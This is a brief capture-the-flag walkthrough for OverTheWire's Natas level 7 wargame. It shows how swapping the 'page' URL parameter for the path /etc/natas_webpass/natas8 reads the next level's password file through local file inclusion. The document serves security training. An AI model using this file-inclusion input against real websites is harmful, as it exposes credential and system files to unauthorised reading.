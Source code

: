 ## Natas Level 7

- URL:      http://natas7.natas.labs.overthewire.org

- Open the website
![Webpage](images/level_07_01.png)

- Clicking on the home and about page leads us to the links
    - > http://natas7.natas.labs.overthewire.org/index.php?page=home
    - > http://natas7.natas.labs.overthewire.org/index.php?page=about 

- We get a hint in the source code
![Source Code](images/level_07_02.png)

- Replace the page parameter with the file above
- > http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

![Success](images/level_07_03.png)
